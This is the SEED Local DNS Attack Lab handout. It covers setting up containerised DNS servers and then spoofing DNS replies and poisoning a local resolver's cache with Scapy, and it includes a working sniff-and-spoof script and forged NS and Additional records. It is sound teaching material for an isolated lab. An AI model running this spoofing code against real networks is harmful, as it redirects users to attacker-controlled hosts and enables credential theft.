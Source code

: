 .. container:: center

   Local DNS Attack Lab
   
********************
Local DNS Attack Lab
********************

Lab Overview
============

DNS (Domain Name System) is the Internet’s phone book; it translates
hostnames to IP addresses (and vice versa). This translation is through
DNS resolution, which happens behind the scene. DNS attacks manipulate
this resolution process in various ways, with an intent to misdirect
users to alternative destinations, which are often malicious. The
objective of this lab is to understand how such attacks work. Students
will first set up and configure a DNS server, and then they will try
various DNS attacks on the target that is also within the lab
environment.

The difficulties of attacking local victims versus remote DNS servers
are quite different. Therefore, we have developed two labs, one focusing
on local DNS attacks, and the other on remote DNS attack. This lab
focuses on local attacks. This lab covers the following topics:

-  DNS and how it works

-  DNS server setup

-  DNS cache poisoning attack

-  Spoofing DNS responses

-  Packet sniffing and spoofing

-  The Scapy tool

Readings and videos.
^^^^^^^^^^^^^^^^^^^^

Detailed coverage of the DNS protocol and attacks can be found in the
following:

-  Chapter 18 of the SEED Book, *Computer & Internet Security: A
   Hands-on Approach*, 2nd Edition, by Wenliang Du. See details at
   https://www.handsonsecurity.net.

-  Section 7 of the SEED Lecture, *Internet Security: A Hands-on
   Approach*, by Wenliang Du. See details at
   https://www.handsonsecurity.net/video.html.

Lab environment.
^^^^^^^^^^^^^^^^

This lab has been tested on the SEED Ubuntu 20.04 VM. You can download a
pre-built image from the SEED website, and run the SEED VM on your own
computer. However, most of the SEED labs can be conducted on the cloud,
and you can follow our instruction to create a SEED VM on the cloud.

.. _sec:environment:

Lab Environment Setup Task
==========================

The main target for DNS cache poisoning attacks is local DNS server.
Obviously, it is illegal to attack a real server, so we need to set up
our own DNS server to conduct the attack experiments. The lab
environment needs four separate machines: one for the victim, one for
the local DNS server, and two for the attacker. The lab environment
setup is illustrated in **Figure 1**. This lab
focuses on the local attack, so we put all these machines on the same
LAN.

.. figure:: media/dns_local/environment_setup.jpg
   :alt: Lab environment setup
   :figclass: align-center

   Figure 1: Lab environment setup

Container Setup and Commands
^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Please download the ``Labsetup.zip`` file to your VM from the lab’s
website, unzip it, enter the ``Labsetup`` folder, and use the
``docker-compose.yml`` file to set up the lab environment. Detailed
explanation of the content in this file and all the involved
``Dockerfile`` can be found from the user manual, which is linked to the
website of this lab. If this is the first time you set up a SEED lab
environment using containers, it is very important that you read the
user manual.

In the following, we list some of the commonly used commands related to
Docker and Compose. Since we are going to use these commands very
frequently, we have created aliases for them in the ``.bashrc`` file (in
our provided SEEDUbuntu 20.04 VM).

::

   $ docker-compose build  # Build the container image
   $ docker-compose up     # Start the container
   $ docker-compose down   # Shut down the container

   // Aliases for the Compose commands above
   $ dcbuild       # Alias for: docker-compose build
   $ dcup          # Alias for: docker-compose up
   $ dcdown        # Alias for: docker-compose down

All the containers will be running in the background. To run commands on
a container, we often need to get a shell on that container. We first
need to use the ``"docker ps"`` command to find out the ID of the
container, and then use ``"docker exec"`` to start a shell on that
container. We have created aliases for them in the ``.bashrc`` file.

::

   $ dockps        // Alias for: docker ps --format "{{.ID}}  {{.Names}}" 
   $ docksh <id>   // Alias for: docker exec -it <id> /bin/bash

   // The following example shows how to get a shell inside hostC
   $ dockps
   b1004832e275  hostA-10.9.0.5
   0af4ea7a3e2e  hostB-10.9.0.6
   9652715c8e0a  hostC-10.9.0.7

   $ docksh 96
   root@9652715c8e0a:/#  

   // Note: If a docker command requires a container ID, you do not need to 
   //       type the entire ID string. Typing the first few characters will 
   //       be sufficient, as long as they are unique among all the containers. 

If you encounter problems when setting up the lab environment, please
read the “Common Problems” section of the manual for potential
solutions.

About the Attacker Container
^^^^^^^^^^^^^^^^^^^^^^^^^^^^

In this lab, we can either use the VM or the attacker container as the
attacker machine. If you look at the Docker Compose file, you will see
that the attacker container is configured differently from the other
containers.

-  *Shared folder.* When we use the attacker container to launch
   attacks, we need to put the attacking code inside the attacker
   container. Code editing is more convenient inside the VM than in
   containers, because we can use our favorite editors. In order for the
   VM and container to share files, we have created a shared folder
   between the VM and the container using the Docker ``volumes``. If you
   look at the Docker Compose file, you will find out that we have added
   the following entry to some of the containers. It indicates mounting
   the ``./volumes`` folder on the host machine (i.e., the VM) to the
   ``/volumes`` folder inside the container. We will write our code in
   the ``./volumes`` folder (on the VM), so they can be used inside the
   containers.

   ::

      volumes:
             - ./volumes:/volumes

-  *Host mode.* In this lab, the attacker needs to be able to sniff
   packets, but running sniffer programs inside a container has
   problems, because a container is effectively attached to a virtual
   switch, so it can only see its own traffic, and it is never going to
   see the packets among other containers. To solve this problem, we use
   the ``host`` mode for the attacker container. This allows the
   attacker container to see all the traffics. The following entry used
   on the attacker container:

   ::

      network_mode: host

   When a container is in the ``host`` mode, it sees all the host’s
   network interfaces, and it even has the same IP addresses as the
   host. Basically, it is put in the same network namespace as the host
   VM. However, the container is still a separate machine, because its
   other namespaces are still different from the host.

Summary of the DNS Configuration
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

All the containers are already configured for this lab. We provide a
summary here, so students are aware of these configurations. Detailed
explanation of the configuration can be found from the manual.

Local DNS Server.
#################

We run the BIND 9 DNS server program on the local DNS server. BIND 9
gets its configuration from a file called . This file is the primary
configuration file, and it usually contains several ``"include"``
entries, i.e., the actual configurations are stored in those included
files. One of the included files is called . This is where the actual
configuration is set.

-  *Simplification.* DNS servers now randomize the source port number in
   their DNS queries; this makes the attacks much more difficult.
   Unfortunately, many DNS servers still use predictable source port
   number. For the sake of simplicity in this lab, we fix the source
   port number to ``33333`` in the configuration file.

-  *Turning off DNSSEC.* DNSSEC is introduced to protect against
   spoofing attacks on DNS servers. To show how attacks work without
   this protection mechanism, we have turned off the protection in the
   configuration file.

-  *DNS cache.* During the attack, we need to inspect the DNS cache on
   the local DNS server. The following two commands are related to DNS
   cache. The first command dumps the content of the cache to the file ,
   and the second command clears the cache.

   ::

      # rndc dumpdb -cache    // Dump the cache to the specified file
      # rndc flush            // Flush the DNS cache

-  *Forwarding the ``attacker32.com`` zone.* A forward zone is added to
   the local DNS server, so if anybody queries the ``attacker32.com``
   domain, the query will be forwarded to this domain’s nameserver,
   which is hosted in the attacker container. The zone entry is put
   inside the ``named.conf`` file.

   ::

      zone "attacker32.com" {
          type forward;
          forwarders { 
              10.9.0.153; 
          };
      };

User machine.
#############

The user container ``10.9.0.5`` is already configured to use
``10.9.0.53`` as its local DNS server. This is achieved by changing the
resolver configuration file (``/etc/resolv.conf``) of the user machine,
so the server ``10.9.0.53`` is added as the first ``nameserver`` entry
in the file, i.e., this server will be used as the primary DNS server.

Attacker’s Nameserver.
######################

On the attacker’s nameserver, we host two zones. One is the attacker’s
legitimate zone ``attacker32.com``, and the other is the fake
``example.com`` zone. The zones are configured in :

::

   zone "attacker32.com" {
           type master;
           file "/etc/bind/attacker32.com.zone";
   };

   zone "example.com" {
           type master;
           file "/etc/bind/example.com.zone";
   };

Testing the DNS Setup
^^^^^^^^^^^^^^^^^^^^^

From the User container, we will run a series of commands to ensure that
our lab setup is correct. In your lab report, please document your
testing results.

Get the IP address of ``ns.attacker32.com``.
############################################

When we run the following ``dig`` command, the local DNS server will
forward the request to the Attacker nameserver due to the ``forward``
zone entry added to the local DNS server’s configuration file.
Therefore, the answer should come from the zone file
(``attacker32.com.zone``) that we set up on the Attacker nameserver. If
this is not what you get, your setup has issues. Please describe your
observation in your lab report.

::

   $ dig ns.attacker32.com

Get the IP address of ``www.example.com``.
##########################################

Two nameservers are now hosting the ``example.com`` domain, one is the
domain’s official nameserver, and the other is the Attacker container.
We will query these two nameservers and see what response we will get.
Please run the following two commands (from the User machine), and
describe your observation.

::

   // Send the query to our local DNS server, which will send the query
   // to example.com's official nameserver. 
   $ dig www.example.com

   // Send the query directly to ns.attacker32.com 
   $ dig @ns.attacker32.com www.example.com

Obviously, nobody is going to ask ``ns.attacker32.com`` for the IP
address of ``www.example.com``; they will always ask the ``example.com``
domain’s official nameserver for answers. The objective of the DNS cache
poisoning attack is to get the victims to ask ``ns.attacker32.com`` for
the IP address of ``www.example.com``. Namely, if our attack is
successful, if we just run the first ``dig`` command, the one without
the ``@`` option, we should get the fake result from the attacker,
instead of getting the authentic one from the domain’s legitimate
nameserver.

The Attack Tasks
================

The main objective of DNS attacks on a user is to redirect the user to
another machine :math:`B` when the user tries to get to machine
:math:`A` using :math:`A`\ ’s host name. For example, when the user
tries to access the online banking, if the adversaries can redirect the
user to a malicious web site that looks very much like the main web site
of bank, the user might be fooled and give away password of his/her
online banking account.

Task 1: Directly Spoofing Response to User
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

.. figure:: media/dns_local/attack_server_local.jpg
   :alt: Local DNS Poisoning Attack
   :figclass: align-center

   Figure 2: Local DNS Poisoning Attack

When a user types the name of a web site (a host name, such as
``www.example.com``) in a web browser, the user’s computer will send a
DNS request to the local DNS server to resolve the IP address of the
host name. Attackers can sniff the DNS request message, they can then
immediately create a fake DNS response, and send back to the user
machine. If the fake reply arrives earlier than the real reply, it will
be accepted by the user machine. See
**Figure 2**.

Please write a program to launch such an attack. A code skeleton is
provided in the following. Section 4 has an example
showing how to create a DNS packet that includes various types of
records. Detailed guidelines are provided in the SEED book.

::

   #!/usr/bin/env python3
   from scapy.all import *
   import sys

   NS_NAME = "example.com"

   def spoof_dns(pkt):
     if (DNS in pkt and NS_NAME in pkt[DNS].qd.qname.decode('utf-8')):
       print(pkt.sprintf("{DNS: %IP.src% --> %IP.dst%: %DNS.id%}"))

       ip = IP(...)           # Create an IP object
       udp = UDP(...)         # Create a UPD object
       Anssec = DNSRR(...)    # Create an aswer record
       dns = DNS(...)         # Create a DNS object
       spoofpkt = ip/udp/dns  # Assemble the spoofed DNS packet
       send(spoofpkt)

   myFilter = "..."    # Set the filter
   pkt=sniff(iface='(*@\textbf{br-43d947d991eb}@*)', filter=myFilter, prn=spoof_dns)

It should be noted that in the code above, the value (highlighted) for
the ``iface`` argument should be replaced with the actual interface name
for the ``10.9.0.0/24`` network.

While the attack program is running, on the user machine, you can run
``dig`` command on behalf of the user. This command triggers the user
machine to send out a DNS query to the local DNS server, which will
eventually send out a DNS query to the authoritative nameserver of the
``example.com`` domain (if the cache does not contain the answer). If
your attack is successful, you should be able to see your spoofed
information in the reply. Compare your results obtained before and after
the attack.

Before launching the attack, make sure that the cache in the local DNS
server is cleaned. If the cache has the answer, the reply from the local
DNS server will be faster than the one you spoofed, and your attack will
not be able to succeed.

A potential issue.
##################

When we do this lab using containers, sometimes (not always) we saw a
very strange situation. The sniffing and spoofing inside containers is
very slow, and our spoofed packets even arrive later than the legitimate
one from the Internet, even though we are local. In the past, when we
use VMs for this lab, we never had this issue. We have not figured out
the cause of this performance issue yet (if you have any insight on this
issue, please let us know).

If you do encouter this strange situation, we can get around it. We
intentionally slow down the traffic going to the outside, so the
authentic replies will not come that fast. This can be done using the
following ``tc`` command on the router to add some delay to the outgoing
network traffic. The router has two interfaces, ``eth0`` and ``eth1``,
make sure use the one connected to the external network ``10.8.0.0/24``.

::

   // Delay the network traffic by 100ms
   # tc qdisc add dev (*@\textbf{eth0}@*) root netem delay 100ms

   // Delete the tc entry
   # tc qdisc del dev eth0 root netem

   // Show all the tc entries 
   # tc qdisc show dev eth0

You can keep the ``tc`` entry on for this entire lab, because all the
tasks will face a similar situation.

Task 2: DNS Cache Poisoning Attack – Spoofing Answers
=====================================================

The above attack targets the user’s machine. In order to achieve
long-lasting effect, every time the user’s machine sends out a DNS query
for `www.example.com <www.example.com>`__ the attacker’s machine must
send out a spoofed DNS response. This might not be so efficient; there
is a much better way to conduct attacks by targeting the DNS server,
instead of the user’s machine.

When a local DNS server receives a query, it first looks for the answer
from its own cache; if the answer is there, the DNS server will simply
reply with the information from its cache. If the answer is not in the
cache, the DNS server will try to get the answer from other DNS servers.
When it gets the answer, it will store the answer in the cache, so next
time, there is no need to ask other DNS servers. See
**Figure 2**.

Therefore, if attackers can spoof the response from other DNS servers,
the local DNS server will keep the spoofed response in its cache for
certain period of time. Next time, when a user’s machine wants to
resolve the same host name, it will get the spoofed response from the
cache. This way, attackers only need to spoof once, and the impact will
last until the cached information expires. This attack is called *DNS
cache poisoning*.

Please modify the program used in the previous task for this attack.
Before attacking, make sure that the DNS Server’s cache is empty. You
can flush the cache using the following command:

::

   # rndc flush

You can inspect the cache on the local DNS server to see whether it is
poisoned or not. The following commands first dump the cache into a
file, and then display the content of the cache file.

::

   # rndc dumpdb -cache
   # cat /var/cache/bind/dump.db

Task 3: Spoofing NS Records
===========================

In the previous task, our DNS cache poisoning attack only affects one
hostname, i.e., `www.example.com <www.example.com>`__. If users try to
get the IP address of another hostname, such as
`mail.example.com <mail.example.com>`__, we need to launch the attack
again. It will be more efficient if we launch one attack that can affect
the entire ``example.com`` domain.

The idea is to use the Authority section in DNS replies. Basically, when
we spoofed a reply, in addition to spoofing the answer (in the Answer
section), we add the following in the Authority section. When this entry
is cached by the local DNS server,
`ns.attacker32.com <ns.attacker32.com>`__ will be used as the nameserver
for future queries of any hostname in the ``example.com`` domain. Since
`ns.attacker32.com <ns.attacker32.com>`__ is controlled by attackers, it
can provide a forged answer for any query. The IP address of this
machine is ``10.9.0.153`` in our setup.

::

   ;; AUTHORITY SECTION:
   example.com.            259200  IN      NS       ns.attacker32.com.

Please add a spoofed NS record in your attack code, and launch the
attack. Section 4 has an example showing how to
include an NS record in a DNS response packet. Detailed guidelines are
provided in the SEED book. Before doing the attack, please remember to
clear the cache on the local DNS server first. If your attack is
successful, when you run the ``dig`` command on the user machine for any
hostname in the `example.com <example.com>`__ domain, you will get the
fake IP address provided by ``ns.attacker32.com``. Please also check the
cache on the local DNS server and see whether the spoofed NS record is
in the cache or not.

Task 4: Spoofing NS Records for Another Domain
==============================================

In the previous attack, we successfully poison the cache of the local
DNS server, so ``ns.attacker32.com`` becomes the nameserver for the
``example.com`` domain. Inspired by this success, we would like to
extend its impact to other domain. Namely, in the spoofed response
triggered by a query for `www.example.com <www.example.com>`__, we would
like to add additional entry in the Authority section (see the
following), so `ns.attacker32.com <ns.attacker32.com>`__ is also used as
the nameserver for ``google.com``.

::

   ;; AUTHORITY SECTION:
   example.com.            259200  IN      NS   ns.attacker32.com.
   google.com.             259200  IN      NS   ns.attacker32.com.

Please modify your attack code slightly to launch the above attack on
your local DNS server. After the attack, check the DNS cache and see
which record is cached. Please describe and explain your observation. It
should be noted that the query that we are attacking is still the query
to ``example.com``, not one to ``google.com``.

Task 5: Spoofing Records in the Additional Section
==================================================

In DNS replies, there is section called Additional Section, which is
used to provide additional information. In practice, it is mainly used
to provide IP addresses for some hostnames, especially for those
appearing in the Authority section. The goal of this task is to spoof
some entries in this section and see whether they will be successfully
cached by the target local DNS server. In particular, when responding to
the query for ``www.example.com``, we add the following entries in the
spoofed reply, in addition to the entries in the Answer section:

::

   ;; AUTHORITY SECTION:
   example.com.            259200  IN   NS   ns.attacker32.com.
   example.com.            259200  IN   NS   ns.example.com.

   ;; ADDITIONAL SECTION:
   ns.attacker32.com.      259200  IN   A    1.2.3.4   (*@\ding{192}@*)
   ns.example.net.         259200  IN   A    5.6.7.8   (*@\ding{193}@*)
   www.facebook.com.       259200  IN   A    3.4.5.6   (*@\ding{194}@*)

Entries and are related to the hostnames in the Authority section. Entry
is completely irrelevant to any entry in the reply, but it provides a
“gracious” help to users, so they do not need to look up for the IP
address of Facebook. Please use Scapy to spoof such a DNS reply. Your
job is to report what entries will be successfully cached, and what
entries will not be cached; please explain why.

What’s Next
^^^^^^^^^^^

In the DNS cache poisoning attack of this lab, we assume that the
attacker and the DNS server are on the same LAN, i.e., the attacker can
observe the DNS query message. When the attacker and the DNS server are
not on the same LAN, the cache poisoning attack becomes much more
challenging. If you are interested in taking on such a challenge, you
can try our “Remote DNS Attack Lab”.

.. _sec:guideline:

Guideline
=========

You need to use Scapy for several tasks in this lab. The following
sample code shows how to sniff a DNS query and then spoof a DNS reply,
which contains a record in the Answer section, two records in the
Authority section and two records in the Additional section. The code is
already included in the ``Labsetup.zip`` file (inside the ``volumes``
folder).

::

   #!/usr/bin/env python3
   from scapy.all import *
    
   def spoof_dns(pkt):
     if (DNS in pkt and 'www.example.net' in pkt[DNS].qd.qname.decode('utf-8')):

       # Swap the source and destination IP address
       IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)

       # Swap the source and destination port number 
       UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)

       # The Answer Section
       Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A',               
                    ttl=259200, rdata='10.0.2.5')

       # The Authority Section
       NSsec1 = DNSRR(rrname='example.net', type='NS',
                      ttl=259200, rdata='ns1.example.net')
       NSsec2 = DNSRR(rrname='example.net', type='NS',
                      ttl=259200, rdata='ns2.example.net')

       # The Additional Section
       Addsec1 = DNSRR(rrname='ns1.example.net', type='A', 
                       ttl=259200, rdata='1.2.3.4')
       Addsec2 = DNSRR(rrname='ns2.example.net', type='A',
                       ttl=259200, rdata='5.6.7.8')

       # Construct the DNS packet
       DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1,  (*@\ding{81}@*)
                    qdcount=1, ancount=1, nscount=2, arcount=2,
                    an=Anssec, ns=NSsec1/NSsec2, ar=Addsec1/Addsec2)

       # Construct the entire IP packet and send it out
       spoofpkt = IPpkt/UDPpkt/DNSpkt
       send(spoofpkt)

   # Sniff UDP query packets and invoke spoof_dns().                       
   f = 'udp and dst port 53'
   pkt = sniff(iface='br-43d947d991eb', filter=f, prn=spoof_dns)       (*@\ding{73}@*)    

Please make sure replace the interface name in Line  with the one in
your system. Line  constructs the DNS payload, including DNS header and
data. Each field of the DNS payload is explained in the following:

-  ``id``: Transaction ID; should be the same as that in the request.

-  ``qd``: Query Domain; should be the same as that in the Request.

-  ``aa``: Authoritative answer (1 means that the answer contains
   Authoritative answer).

-  ``rd``: Recursion Desired (0 means to disable Recursive queries).

-  ``qr``: Query Response bit (1 means Response).

-  ``qdcount``: number of query domains.

-  ``ancount``: number of records in the Answer section.

-  ``nscount``: number of records in the Authority section.

-  ``arcount``: number of records in the Additional section.

-  ``an``: Answer section

-  ``ns``: Authority section

-  ``ar``: Additional section

Submission
==========

You need to submit a detailed lab report, with screenshots, to describe
what you have done and what you have observed. You also need to provide
explanation to the observations that are interesting or surprising.
Please also list the important code snippets followed by explanation.
Simply attaching code without any explanation will not receive credits.
